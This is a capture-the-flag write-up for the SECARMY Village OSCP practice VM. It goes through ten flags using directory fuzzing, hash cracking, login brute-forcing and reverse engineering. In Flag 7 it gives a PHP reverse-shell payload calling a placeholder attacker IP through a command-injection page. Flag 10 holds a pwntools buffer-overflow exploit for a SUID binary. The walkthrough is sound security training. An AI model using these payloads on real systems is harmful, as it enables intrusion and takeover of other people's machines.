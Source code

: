 ```yaml
---
date: 2020-11-05 19:47:51
layout: post
title: "SECARMY CTF OSCP box"
description: "Writeup of the SECARMY CTF OSCP giveaway box"
image: /assets/img/secarmy-village-0.png
optimized_image: /assets/img/secarmy-village-0.png
category: blog
tags:
  - ctf
  - reversing
  - pwn
  - privilege_escalation

author: trollzorftw
---
```


### Context
This is a writeup for SECARMY's CTF OSCP box. The contest has ended, but you can find the VM on Vulnhub: [Download Page](https://www.vulnhub.com/entry/secarmy-village-grayhat-conference,585/)


### Flag 1
```bash
curl http://192.168.100.33
```
This gives us the following information: "You are required to find our hidden directory and make your way into the machine."

So naturally I throw a dirbust with common.txt wordlist at it:
```bash
ffuf -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.100.33/FUZZ

anon                    [Status: 301, Size: 315, Words: 20, Lines: 10]

curl http://192.168.100.33/anon/
```

Giving us the credentials for uno user:
```html
<font color="white">uno:luc10r4m0n</font>
```

### Flag 2
We read readme.txt and we get: 
"You surely can guess the username , the password will be: 4b3l4rd0fru705"

We try escalation to dos with password 4b3l4rd0fru705 and we get access


After reading readme.txt we run the following command:


```bash
cd ./files && grep -r a8211ac1853a1235d48829414626512a

file4444.txt:a8211ac1853a1235d48829414626512a
```

Opening file4444.txt tells us to: Look inside file3131.txt

file3131.txt gives us a base64 encoded text which decoded gives us a zip file to get flag and the next todo instructions:

```bash
echo "UEsDBBQDAAAAADOiO1EAAAAAAAAAAAAAAAALAAAAY2hhbGxlbmdlMi9QSwMEFAMAAAgAFZI2Udrg
tPY+AAAAQQAAABQAAABjaGFsbGVuZ2UyL2ZsYWcyLnR4dHPOz0svSiwpzUksyczPK1bk4vJILUpV
L1aozC8tUihOTc7PS1FIy0lMB7LTc1PzSqzAPKNqMyOTRCPDWi4AUEsDBBQDAAAIADOiO1Eoztrt
dAAAAIEAAAATAAAAY2hhbGxlbmdlMi90b2RvLnR4dA3KOQ7CMBQFwJ5T/I4u8hrbdCk4AUjUXp4x
IsLIS8HtSTPVbPsodT4LvUanUYff6bHd7lcKcyzLQgUN506/Ohv1+cUhYsM47hufC0WL1WdIG4WH
80xYiZiDAg8mcpZNciu0itLBCJMYtOY6eKG8SjzzcPoDUEsBAj8DFAMAAAAAM6I7UQAAAAAAAAAA
AAAAAAsAJAAAAAAAAAAQgO1BAAAAAGNoYWxsZW5nZTIvCgAgAAAAAAABABgAgMoyJN2U1gGA6WpN
3pDWAYDKMiTdlNYBUEsBAj8DFAMAAAgAFZI2UdrgtPY+AAAAQQAAABQAJAAAAAAAAAAggKSBKQAA
AGNoYWxsZW5nZTIvZmxhZzIudHh0CgAgAAAAAAABABgAAOXQa96Q1gEA5dBr3pDWAQDl0GvekNYB
UEsBAj8DFAMAAAgAM6I7USjO2u10AAAAgQAAABMAJAAAAAAAAAAggKSBmQAAAGNoYWxsZW5nZTIv
dG9kby50eHQKACAAAAAAAAEAGACAyjIk3ZTWAYDKMiTdlNYBgMoyJN2U1gFQSwUGAAAAAAMAAwAo
AQAAPgEAAAAA" | base64 -d > flag2.zip

unzip flag2.zip && cat ./challenge2/flag2.txt
```


### Flag 3
We obtain a super secret token from the previous archive and use it on 1337 port:

```bash
echo "c8e6afe38c2ae9a0283ecfb4e1b7c10f7d96e54c39e727d0e5515ba24a4d1f1b" | nc 192.168.100.33 1337
```

Which gives us:
```
 Welcome to SVOS Password Recovery Facility!
 Enter the super secret token to proceed: 
 Here's your login credentials for the third user tres:r4f43l71n4j3r0
```

### Flag 4
We get a binary which we need to reverse.Using gdb-peda as our reverse tool, we run the binary and close it when it prompts us to enter the key. Because I was unable to breakpoint anywhere in the main function, I tried to find "keywords" that might be in the binary.The command "find 'credentials'" worked and I got:

```bash
mapped : 0x7ffff7ffb09b ("credentials for the fourth user cuatro:p3dr00l1v4r3z")
```

### Flag 5
The todo.txt tells us to go to /justanothergallery on the webserver

After analyzing a little bit we get a bunch of qr images in: http://192.168.100.33/justanothergallery/qr/


Downloading them all and decoding the qr codes with a simple python script gives us the next credentials and flag:
```python
from PIL import Image
from pyzbar.pyzbar import decode
import sys

imgs = []
for i in range(69):
	imgs.append('image-{}.png'.format(i))

decoded_text = ''

for img in imgs:
	data = str(decode(Image.open(img))[0]).split("data=b'")[1].split("',")[0]
	decoded_text += data + ' '

print(decoded_text)
```

Result:
```
Hello and congrats for solving this challenge, 
we hope that you enjoyed the challenges we presented so far. 
It is time for us to increase the difficulty level and make 
the upcoming challenges more challenging than previous ones. 
Before you move to the next challenge, here are the credentials for the 5th user: cinco:ruy70m35 
head over to this user and get your 5th flag! goodluck for the upcoming challenges!
```

### Flag 6
Reading readme.txt points us to /cincos-secrets/ here we'll get a shadow.bak file but is not readable. Changing the permissions will give us a hash:

```bash
chmod 444 shadow.bak && cat shadow.bak | grep seis

seis:$6$MCzqLn0Z2KB3X3TM$opQCwc/JkRGzfOg/WTve8X/zSQLwVf98I.RisZCFo0mTQzpvc5zqm/0OJ5k.PITcFJBnsn7Nu2qeFP8zkBwx7.:18532:0:99999:7:::
```

Cracking the hash gives us the password: Hogwarts , so creds: seis:Hogwarts


### Flag 7
The readme.txt file gives us the following path: "head over to /shellcmsdashboard webpage and find the credentials!"
After trying a bit with hydra, having no success because no message on fail. 
I decided to bruteforce login on burp sniper attack obtaining the password "qwerty".

Logged in and got the message: "head over to /aabbzzee.php" 

This page will give us an easy command injection box where we will get a reverse shell from.

My payload: 
```bash
php -r '$sock=fsockopen("ATTACKER-IP",LISTEN-PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Netcat reverse shell on LISTEN-PORT on the attacker box:

```bash
nc -nvlp LISTEN-PORT
```
Getting www-data shell where we get the seventh user password: 6u1l3rm0p3n473


### Flag 8
After playing around with the message, I discovered that xoring "x" with every number in message.txt will give us the password. I created a small python script to extract it:

```python
message = [11, 29, 27, 25, 10, 21, 1, 0, 23, 10, 17, 12, 13, 8]
extracted = ''
for key in message:
  extracted += chr(ord('x')^key)

print(extracted)

Output:secarmyxoritup
```


### Flag 9
We are presented with a pcapng file. Opening it up with wireshark we will get a tcp stream that has a LOT of text in which "QWERTY" is repeated a lot. Also, there were some dns queries to dcode.fr so there is a hint of that too.

We obtain a password from the long text: 
```mjwfr?2b6j3a5fx/c .```


Using dcode.fr and use keyboard shift cipher with settings: 

	-QWERTY(US) 

	-Shift Right + Clockwise rotation

Result:
```
nueve:355u4z4rc0
```


### Flag 10
We have a suid set binary, so we will need to exploit it to get root. Reversing it and creating a small python exploit script will do the trick:

```python
from pwn import *

io = process("./orangutan")
io.recvline("pwnme if u can ;)")
junk = b"A" * 24
payload = junk + p64(0xcafebabe)
io.sendline(payload)
io.interactive()
```